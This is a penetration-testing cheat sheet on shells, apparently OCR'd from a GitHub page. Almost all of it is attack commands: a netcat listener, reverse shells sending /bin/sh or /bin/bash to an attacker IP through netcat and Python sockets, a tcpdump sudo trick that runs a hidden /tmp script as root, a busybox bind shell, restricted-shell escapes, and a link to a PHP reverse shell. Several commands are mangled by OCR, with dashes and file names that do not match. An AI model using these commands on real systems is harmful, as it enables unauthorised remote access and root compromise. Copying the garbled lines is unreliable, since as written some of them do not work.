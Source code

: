 # [](#shells)Shells

*   Netcat Shell Listener

    `nc -nlvp 4444`

*   Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user.

        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )

        (hint: sudo -l to see what you can run)

    *   You may encounter limited shells that use rbash and only allow you to execute a single command per session. You can overcome this by executing an SSH shell to your localhost:

              ssh user@$ip nc $localip 4444 -e /bin/sh
              enter user's password
              python -c 'import pty; pty.spawn("/bin/sh")'
              export TERM=linux

    `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

    `echo os.system('/bin/bash')`

    `/bin/sh -i`

    `perl —e 'exec "/bin/sh";'`

    perl: `exec "/bin/sh";`

    ruby: `exec "/bin/sh"`

    lua: `os.execute('/bin/sh')`

    From within IRB: `exec "/bin/sh"`

    From within vi: `:!bash` or

    `:set shell=/bin/bash:shell`

    From within vim `':!bash':`

    From within nmap: `!sh`

    From within tcpdump

         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

    From busybox `/bin/busybox telnetd -|/bin/sh -p9999`

*   Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
